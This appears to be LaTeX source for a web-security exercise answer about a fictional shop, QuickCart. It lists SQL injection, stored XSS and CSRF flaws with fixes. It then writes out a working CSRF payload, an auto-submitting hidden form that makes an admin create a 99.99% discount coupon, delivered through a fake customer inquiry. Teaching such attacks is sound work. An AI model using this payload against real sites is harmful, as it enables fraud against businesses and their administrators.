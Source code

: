 \documentclass{article}
\begin{document}
\begin{itemize}
    \item[\textbf{1.}] Vulnerabilities Identification:
    \item SQL Injection: Line 23 \texttt{inquiry\_q = "INSERT INTO inquiries VALUES ... '" + text + " ');"}. The user input \texttt{text} is concatenated directly into the SQL query string. Fix: Use parameterized queries.
    \item XSS (Stored): The \texttt{text} of the inquiry is stored in the database. When an admin views the inquiry (line 39 \texttt{view\_inquiry.html}), it is reflected into the HTML (line 61 \texttt{<p>{{ inquiry }}</p>}) without sanitization. Fix: HTML escape the output.
    \item CSRF: Both the \texttt{add\_coupon} and \texttt{send\_inquiry} functions perform state-changing actions (database inserts) using only session validation without CSRF tokens.

    \item[\textbf{2.}] CSRF Exploit (Admin Discount):
    \item Goal: Trick an admin into creating a coupon for a 99.99\% discount.
    \item The attacker sets up a malicious website (\texttt{QuickSmart.com}).
    \item The website contains an auto-submitting form targeting the vulnerable endpoint:
\end{itemize}
`<form id="csrf" method="POST" action="http://QuickCart.com/add\_coupon">
<input type="hidden" name="coupon\_code" value="HACKED99">
<input type="hidden" name="discount" value="0.9999">
</form>
<script>document.getElementById('csrf').submit();</script>`
\begin{itemize}
    \item The attacker sends a link to \texttt{QuickSmart.com} to the admin via a fake customer inquiry.
    \item When the admin clicks the link, their browser automatically sends the POST request to \texttt{QuickCart.com}. Since the admin's session cookie is automatically included, the server authenticates the request as the admin and creates the massive discount coupon.
\end{itemize}


\section{Malware}
Analysis of malicious code, reverse engineering, and detection mechanisms. The approach involves statically or dynamically identifying the malware's intentions, evasion techniques, and potential mitigations.
\end{document}
